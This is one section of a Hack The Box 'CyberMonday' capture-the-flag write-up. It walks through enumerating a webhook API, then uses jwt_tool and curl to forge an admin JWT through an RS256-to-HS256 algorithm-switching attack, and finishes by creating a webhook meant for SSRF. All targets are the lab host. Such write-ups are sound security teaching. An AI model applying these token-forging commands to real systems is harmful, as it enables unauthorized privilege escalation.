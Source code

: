 # Webhook API Admin Access

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[**Webhook API Admin Access**](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)
[Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
[Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)

Navigating to the link itself just gets us a blank page. But if we go to the base URL (After adding the domain to our `hosts` file) we see a list of endpoints we can use.
```json
{
  "status": "success",
  "message": {
    "routes": {
...
```

First lets try the `GET /webhooks` endpoint. Since the other endpoints need a UUID it might help to see which ones have already been created. 
```bash
curl http://webhooks-api-beta.cybermonday.htb/webhooks

{"status":"error","message":"Unauthorized"}
```


So we need authorization for this one. The same seems to be true for the create endpoint. We have the UUID for the webhook from the changelog so lets `POST` to that and see what happens.
```bash
curl -X POST http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77 -H "Content-Type: application/json" -d '{}'

{"status":"error","message":"\"log_name\" not defined"}
```

This must be a `createLogFile` webhook. Sending a `POST` with both the `log_name` and `log_content` fields doesn't seem to get us anything beyond a `Log created` message so lets leave that for now.

The login endpoint has a username and password so lets try some [[weak-credentials|basic credentials]] like `admin:admin`. No luck there, let's go ahead and create an account for now. Once our account is created and we've logged in we obtain a JWT to use for our requests in the `x-access-token` header. Trying the `GET /webhooks` endpoint again we can now get a list of endpoints but there's only the `createLogFile` endpoint that we used before (unless there are other people also attempting to hack the box). If we try to use `/webhooks/create` however, we find we're still unauthorized. If we [inspect our JWT](https://jwt.io/) we find it holds the following payload:
```json
{
  "typ": "JWT",
  "alg": "RS256"
}
{
  "id": 3,
  "username": "username",
  "role": "user"
}
```

So our role may be what's holding us back here. Since the security algorithm is RS256 the server may be open to an [[jwt-exploits|algorithm switching attack]]. First we need the public key our token. Querying the usual paths on the server we find the information in the `/jwks.json` path. From that we can extract the public key. Next we use `jwt_tool` to alter the payload and resign the token. 

First we'll extract the public key from the `jwks.json` file, then tamper with the payload and signature.
```bash
python3 ~/tools/jwt_tool/jwt_tool.py <your token> -V -jw jwks.json

Found RSA key factors, generating a public key
[+] kid_0_<timestamp>.pem

python3 ~/tools/jwt_tool/jwt_tool.py <your token> -T
python3 ~/tools/jwt_tool/jwt_tool.py <token from the above command> -X k -pk <your pem filename>
```

During the second command `jwt_tool` will ask what data you want to tamper with. Skip the header values, then change the `role` value in the payload to `admin`. After this you should have a new (much shorter) JWT that we can now try using to create a new webhook.
```bash
curl -X POST http://webhooks-api-beta.cybermonday.htb/webhooks/create \
-H "x-access-token: <your spoofed token>" \
-H "Content-Type: application/json" \
-d '{"description": "ssrf", "name": "ssrfHook", "action": "sendRequest"}'

{"status":"success","message":"Done! Send me a request to execute the action, as the event listener is still being developed.","webhook_uuid":"22c370c6-c063-440f-8492-1f20051db38f"}
```

Success! Now lets see what we can get up to with this new endpoint.

Next: [Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)